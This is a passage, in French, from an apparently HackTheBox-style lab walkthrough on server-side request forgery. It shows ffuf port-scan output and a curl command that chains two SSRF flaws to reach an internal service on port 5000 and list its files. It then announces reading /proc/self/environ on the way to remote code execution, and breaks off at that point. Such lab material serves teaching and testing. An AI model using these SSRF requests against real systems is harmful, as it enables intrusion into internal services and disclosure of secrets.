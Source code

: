 ```
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Regexp: Errno[[:blank:]]111
________________________________________________

80                      [Status: 200, Size: 153, Words: 5, Lines: 6]
5000                    [Status: 200, Size: 123, Words: 3, Lines: 5]
:: Progress: [65535/65535] :: Job [1/1] :: 249 req/sec :: Duration: [0:04:06] :: Errors: 0 ::

```

Nous avons trouvé une autre application en écoute sur le port 5000. Dans ce cas, l'application répond par une liste de fichiers.

#### cURL - Interagir avec la cible

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 385
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:30:07 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/</h1><a>total 24K
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 .
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 ..
-rw-r--r-- 1 root root   84 Oct 19 16:32 index.html
-rw-r--r-- 1 root root 1.2K Oct 19 16:32 internal.py
-rw-r--r-- 1 root root  691 Oct 19 20:29 internal_local.py
-rwxr-xr-x 1 root root   69 Oct 19 16:32 start.sh
 </a></body></html>

```

Faisons un bref récapitulatif de ce que nous avons accompli :

-   Émettre des demandes au nom d'ubuntu-web à internal.app.local
-   Atteindre une application Web écoutant sur le port 5000 à l'intérieur de internal.app.local enchaînant deux vulnérabilités SSRF
-   Divulguer une liste de fichiers via l'application interne

Découvrons maintenant le code source des applications Web à l'écoute `internal.app.local`pour voir comment nous pouvons réaliser l'exécution de code à distance.

Émettons une demande de divulgation `/proc/self/environ`de fichier, où le chemin actuel doit être présent sous la `PWD`variable d'environnement.

#### cURL - Interagir avec la cible
